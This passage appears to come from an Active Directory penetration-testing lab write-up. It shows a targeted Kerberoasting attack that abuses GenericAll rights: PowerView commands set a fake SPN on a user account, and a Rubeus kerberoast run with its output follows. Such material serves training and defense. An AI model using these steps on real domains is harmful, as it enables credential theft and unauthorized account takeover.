 	- `us\studentuser57`, as a member of the `StudentUsers` Domain Group, and this Group has `GenericAll` privileges on `SupportXUser` accounts.
		- This means that members of this Group have full rights to the objects and can perform various actions on them, such as reset their passwords.
		- Since resetting passwords is a disruptive action that can trigger alerts, we can perform a Targeted Kerberoasting Attack on the target accounts. We will assign a SPN to them and then we will request a TGS for them in an attempt to crack the ticket and retrieve the account's plaintext password, if it is weak enough.
### 4.2.1 Abusing the `GenericAll` permission on `SupportXUser` accounts
- We will target our designated user, `us\Support57User`. First we need to make sure that the target user does not already have a SPN.
```powershell
PS C:\Auditor> Get-DomainUser Support57User | Select serviceprincipalname

serviceprincipalname
--------------------
```
- We will create a fake SPN and assign it to the user account. We will also check if it was properly assigned.
```powershell
PS C:\Auditor> Set-DomainObject -Identity Support57User -Set @{serviceprincipalname='CIFS/US-WRKST1.US.TECHCORP.LOCAL'}
```
- We can check if the SPN was properly assigned to our target account.
```powershell
PS C:\Auditor> Get-DomainUser Support57User | Select serviceprincipalname

serviceprincipalname
--------------------
CIFS/US-WRKST1.US.TECHCORP.LOCAL
```
- We will request a TGS from the fake SPN of the target account, since this ticket will contain the encrypted password of the target user's password.
```powershell
PS C:\Auditor> .\Rubeus.exe kerberoast /user:Support57User /domain:us.techcorp.local /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.0


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : Support57User
[*] Target Domain          : us.techcorp.local
[*] Searching path 'LDAP://US-DC.us.techcorp.local/DC=us,DC=techcorp,DC=local' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=Support57User)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : Support57user
[*] DistinguishedName      : CN=Support57User,CN=Users,DC=us,DC=techcorp,DC=local
[*] ServicePrincipalName   : CIFS/US-WRKST1.US.TECHCORP.LOCAL
```